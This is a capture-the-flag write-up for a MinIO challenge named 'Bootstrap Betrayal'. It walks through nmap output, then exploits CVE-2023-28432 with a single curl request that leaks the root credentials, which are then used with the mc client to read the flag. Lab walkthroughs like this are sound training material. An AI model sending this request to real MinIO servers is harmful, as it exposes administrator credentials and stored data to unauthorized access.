

# Bootstrap Betrayal

## Challenge Description

An outdated MinIO cluster is running with a critical security vulnerability.
Your goal is to retrieve the flag. GLHF!

The IT-Ops Portal is accessible at: http://portal.cfire:8080

NOTE: Create a user and find the VPN and Browser LABs on Campfire Labs:
https://qualification.campfiresecurity.dk/challenges?challenge=bootstrap-betrayal

## Solution

Nmap targets:

```bash
Nmap scan report for 10.42.2.100
Host is up (0.013s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT      STATE SERVICE
8080/tcp open  http-proxy

Nmap scan report for 10.42.2.101
Host is up (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT      STATE SERVICE
9000/tcp open  cslistener
9001/tcp open  tor-orport

Nmap scan report for 10.42.2.104
Host is up (0.014s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT      STATE SERVICE
9000/tcp open  cslistener
9001/tcp open  tor-orport

Nmap scan report for 10.42.2.121
Host is up (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT      STATE SERVICE
9000/tcp open  cslistener
9001/tcp open  tor-orport

Nmap scan report for 10.42.2.167
Host is up (0.014s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT      STATE SERVICE
9000/tcp open  cslistener
9001/tcp open  tor-orport
```

Challenge name (Bootstrap Betrayal) hints bootstrap [vulnerability](https://nvd.nist.gov/vuln/detail/cve-2023-28432) in MinIO.

````bash
curl -X POST http://10.42.2.104:9000/minio/bootstrap/v1/verify
{"MinioPlatform":"OS: linux | Arch: amd64","MinioEndpoints":[{"Legacy":true,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio.cfire:9000","Path":"/data","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio2.cfire:9000","Path":"/data","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio3.cfire:9000","Path":"/data","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio4.cfire:9000","Path":"/data","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://minio.cfire/data http://minio2.cfire/data http://minio3.cfire/data http://minio4.cfire/data"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_ROOT_PASSWORD":"X9mK2pL8vN4qR6wT3yU7zA1bC5dE","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"admin_7h3_53cr37_k33p3r","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}
````

````bash
wget https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
./mc --help
````

````bash
./mc alias set ctf http://10.42.2.104:9000 admin_7h3_53cr37_k33p3r X9mK2pL8vN4qR6wT3yU7zA1bC5dE
./mc ls -r ctf
````



````bash
./mc cat ctf/pwned-minio-cve-2023-28432/documents/flag.txt
````

**Flag**: DDC{pwn3d_m1n10_3nvs_v4r14bl3s}